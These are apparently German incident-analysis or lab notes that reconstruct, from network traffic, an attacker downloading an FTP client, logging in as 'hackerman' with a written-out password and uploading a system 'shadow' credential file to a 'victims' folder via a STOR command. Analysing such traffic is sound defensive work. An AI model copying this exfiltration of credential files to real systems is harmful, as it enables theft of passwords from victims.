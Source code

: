 1. FTP upload
   a) 172.17.0.3
   b) GET /alpine/v3.11/main/x86_64/lftp-4.8.4-r2.apk (ftp client download)
   c) ftp-upload von victims/172.17.0.2/shadow (vermutliche credentials)
   d) Er lädt einen FTP-Client herunter und meldet sich anschließend als "hackerman" mit dem Passwort "hackH4ckhacK" am Pure-FTPd an und erstellt dort folgende Ordner "victims/172.17.0.2" anschließend läd er in diesen Ordner eine Datei mit dem Namen "Shadow"
   STOR victims/172.17.0.2/shadow
2. hackH4ckhacK
   
   
   ![[Pasted image 20231020085919.png]]
   ![[Pasted image 20231020085939.png]]